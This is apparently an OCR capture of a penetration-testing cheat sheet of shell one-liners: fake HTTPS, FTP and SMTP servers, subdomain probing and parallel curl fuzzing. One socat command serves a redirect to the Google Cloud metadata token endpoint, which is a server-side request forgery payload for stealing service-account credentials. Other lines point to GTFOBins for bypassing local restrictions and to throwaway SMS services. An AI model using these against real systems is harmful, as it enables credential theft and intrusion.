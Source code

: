 ```
<br>```socat -v -d -d openssl-listen:443,crlf,reuseaddr,cert=test.pem,verify=0,fork 'SYSTEM:/bin/echo "HTTP/1.1 200 OK";/bin/echo "Connection: close";/bin/echo "Content-Length: 2";/bin/echo;/bin/echo "OK"'```
<br>```socat -v -d -d openssl-listen:443,crlf,reuseaddr,cert=web.pem,verify=0,fork 'SYSTEM:/bin/echo "HTTP/1.1 302 Found";/bin/echo "Connection: close";/bin/echo "Content-Length: 0";/bin/echo "Location: http://metadata.google.internal/computeMetadata/v1beta1/instance/service-accounts/default/token";/bin/echo;/bin/echo'```
<br>```stunnel stunnel.conf``` # Check https://www.stunnel.org/

<br># Python 3 Simple HTTPS Server
```
    import http.server, ssl
    server_address = ('0.0.0.0', 443)
    httpd = http.server.HTTPServer(server_address, http.server.SimpleHTTPRequestHandler)
    httpd.socket = ssl.wrap_socket(httpd.socket, server_side=True, certfile='/path/cert.pem', ssl_version=ssl.PROTOCOL_TLS)
    httpd.serve_forever()
```

<br># Fake FTP Server
<br>```sudo python -m pyftpdlib --directory=/tmp/dir/ --port=21```

<br># Fake SMTP Server
<br>```sudo python -m aiosmtpd -n -l 0.0.0.0:25```

<br># Check HTTP or HTTPS
<br>```while read i; do curl -m 15 -ki http://$i &> /dev/null; if [ $? -eq 0 ]; then echo $i; fi; done < subdomains.txt```
<br>```while read i; do curl -m 15 -ki https://$i &> /dev/null; if [ $? -eq 0 ]; then echo $i; fi; done < subdomains.txt```

<br># Ten requests in parallel
<br>```xargs -I % -P 10 curl -H 'Connection: close' -s -D - -o /dev/null https://example.com < <(printf '%s\n' {1..10000})```

<br># Burp Intruder
<br>```xargs -I $ -P 10 curl -skL -o /dev/null "https://example.com/$" -w "%{http_code} /$\n" < <(head fuzz.txt)```
<br>```xargs -I $ -P 10 curl -skL -o /dev/null "https://example.com/$" -w "%{http_code} /$\n" < <(printf '%s\n' {1..3})```

<br># Access target directly through IP address
<br>```http://1.2.3.4```
<br>```https://1.2.3.4```

<br># Trim space and newlines on bash variable
<br>```"${i//[$'\t\r\n ']}"```

<br># Extract paths from swagger.json
<br>```cat swagger.json | jq -r '.paths | to_entries[] | .key'```

<br># Free SMS online services
<br>https://receive-sms.cc
<br>https://onlinesim.io

https://gtfobins.github.io/
<br># GTFOBins is a curated list of Unix binaries that can used to bypass local security restrictions in misconfigured systems.

https://www.guyrutenberg.com/2014/05/02/make-offline-mirror-of-a-site-using-wget/
<br># Make Offline Mirror of a Site using wget
<br>```wget -mkEpnp https://www.example.com/```

```